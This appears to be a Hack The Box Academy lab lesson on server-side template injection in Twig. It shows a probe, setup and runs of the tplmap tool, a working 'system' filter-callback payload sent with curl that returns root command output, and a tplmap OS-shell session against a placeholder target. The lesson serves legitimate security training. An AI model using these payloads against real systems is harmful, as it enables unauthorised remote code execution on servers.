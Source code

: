 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/145/section/1307
// Platform Version: V1
// Module ID: 145
// Module Name: Server-side Attacks
// Module Difficulty: Medium
// Section ID: 1307
// Section Title: SSTI Exploitation Example 1
// Page Title: Hack The Box - Academy
// Page Number: 15
-->

# SSTI Exploitation Example 1

**Module Name:** Server-side Attacks **Page Number:** 15

#### 

#### SERVER-SIDE ATTACKS

# SSTI Exploitation Example 1

![https://academy.hackthebox.com/storage/modules/145/img/twig1.png](https://academy.hackthebox.com/storage/modules/145/img/twig1.png)

![https://academy.hackthebox.com/storage/modules/145/img/twig2.png](https://academy.hackthebox.com/storage/modules/145/img/twig2.png)

![https://academy.hackthebox.com/storage/modules/145/img/twig3.png](https://academy.hackthebox.com/storage/modules/145/img/twig3.png)

![https://academy.hackthebox.com/storage/modules/145/img/twig6.png](https://academy.hackthebox.com/storage/modules/145/img/twig6.png)

![https://academy.hackthebox.com/storage/modules/145/img/twig_.png](https://academy.hackthebox.com/storage/modules/145/img/twig_.png)

``` php
{{_self.env.display("TEST")}}
```

![https://academy.hackthebox.com/storage/modules/145/img/twig7.png](https://academy.hackthebox.com/storage/modules/145/img/twig7.png)

#### tplmap.py

``` shell-session
[!bash!]$ git clone https://github.com/epinna/tplmap.git
[!bash!]$ cd tplmap
[!bash!]$ pip install virtualenv
[!bash!]$ virtualenv -p python2 venv
[!bash!]$ source venv/bin/activate
[!bash!]$ pip install -r requirements.txt
[!bash!]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

#### Payload

``` php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
```

#### cURL - Interacting with the Target

``` shell-session
[!bash!]$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<head>
  <link rel="stylesheet" type="text/css" href="css/default.css" media="screen"/>
  <title>SSTI</title>
</head>
<body>
<div class="container">
  <div class="main">
    <div class="header">
      <div class="title">
        <h1>I'm here to say hello</h1>
      </div>
    </div>
    <div class="content">
 

<a>
    Who are you?
    <form method='post' action=''>
        <div class="form-group"> 
            <input placeholder="Name" name="name" size=70></input> <button class="btn btn-default" type="submit" name='submit'>Send</button>
       </div> 
    </form>
Hello uid=0(root) gid=0(root) groups=0(root)
Linux serversideattackssstitwig-60784-78bd58b5b-pmvvv 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
serversideattackssstitwig-60784-78bd58b5b-pmvvv
serversideattackssstitwig-60784-78bd58b5b-pmvvv!</a>

        </div>    
        <div class="clearer"><span></span></div>
    </div>
    <div class="footer">Break me!</div>
</div>
</body>
```

#### tplmap.py - OS Shell

``` shell-session
[!bash!]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Run commands on the operating system.

Linux $
```

![https://academy.hackthebox.com/storage/modules/145/img/twig8.png](https://academy.hackthebox.com/storage/modules/145/img/twig8.png)

# 

# 

#### Questions

####